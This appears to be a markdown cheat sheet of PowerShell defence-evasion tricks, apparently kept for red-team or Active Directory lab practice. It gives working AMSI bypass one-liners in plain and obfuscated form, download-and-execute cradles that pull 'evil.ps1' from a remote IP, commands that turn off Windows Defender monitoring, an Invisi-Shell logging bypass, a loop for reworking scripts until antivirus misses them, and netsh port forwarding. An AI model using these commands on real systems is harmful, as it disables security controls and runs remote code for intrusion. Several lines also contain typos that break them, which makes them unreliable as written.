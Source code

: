 

## Tricks to Bypass protections
  * [Execution Policy Protection](#execution-policy-protection)
  * [AMSI Bypass](#amsi-bypass)
  * [Memory Execution](#memory-execution)
  * [Disable Defender](#disable-defender)
  * [Invisi Shell](#invisi-shell)
  * [AMSI Trigger](#amsi-trigger)
  * [References](#references)

### Execution Policy Protection
---
```powershell
C:> powershell -ExecutionPolicy bypass
C:> powershell -c <cmd>
C:> powershell -encodedcommand
C:> $env:PSExecutionPolicyPreference = "bypass"
```

### AMSI Bypass
---
Plain:
```powershell
C:> "[Ref].Assembly.GetType('System.MAnagement.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublix,Static').SetValue($null,$true)"
```
Obfuscation:
```powershell
C:> sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
```powershell
C:> S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
### Memory Execution
---
##### Import Module on Memory
```powershell
C:> iex ((New-Object Net.WebClient).DownloadString('http://<ip_address>/<file>.ps1'));
```
```powershell
C:> $ie=New-Object -ComObject InternetExplorer.Application;$ie.visible ==$False;$ie.navigate('http 192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```
```powershell
C:> $h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send;iex $h.responseText
```
```powershell
C:> $wr=[System.NET.WebRequest]::Create("http 192.168.230.1/evil.ps1")
C:> $r=$w. GetResponse()
C:> IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
##### Run Remote Script (PSv3 Onwards)
```powershell
C:> iex (iwr 'http://<ip>/evil.ps1' -UseBasicParsing)
```

### Disable Defender
---
Admin Privileges Required
```powershell
C:> Powershell -ep bypass
C:> Set-MpPreference -DisableIOAVProtection $true
C:> Set-MpPreference -Disablerealtimemonitoring $true
C:> "[Ref].Assembly.GetType('System.MAnagement.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublix,Static').SetValue($null,$true)"
```
### Invisi Shell
---
From the [Tool GitHub](https://github.com/OmerYa/Invisi-Shell): _Hide your powershell script in plain sight! Invisi-Shell bypasses all of Powershell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking .Net assemblies. The hook is performed via CLR Profiler API._

- Having Admin Privileges:
```powershell
C:> RunWithPathAsAdmin.bat
```
- Non Admin:
```powershell
C:> RunWithRegistryNonAdmin.bat
```

### AMSI Trigger
---
To identify the part of a PowerShell script that is detected by AV. 
Simply provide the path to the script file to scan:
```powershell
C:> AmsiTrigger_x64.exe -i C: AD Tools Invoke PowerShellTcp_Detected.ps1
```
Steps:
- Scan using the tool
- Modify code snippet
- Reescan
- Repeat until we get as result "AMSI_RESULT_NOT_DETECTED" or "Blank"

### AppLocker
---

```powershell
C:> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```
#### Constrained LAnguage Mode (CLM)
```powershell
C:> $ExecutionContext.SessionState.LanguageMode
```
- `ConstrainedLanguage`
- `FullLanguage`
> Bypassing AppLocker, automatically bypasses Language Mode
### Port Forwarding
---
```powershell
C:> netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x

# To execute using RMI (note the `$null` to avoid redirection issues
C:> $null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x"
```

### References
---
- [Pentest Laboratories](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/): Ways to Bypass AMSI
- [AMSI Trigger](https://github.com/RythmStick/AMSITrigger)
- [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
- [S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)


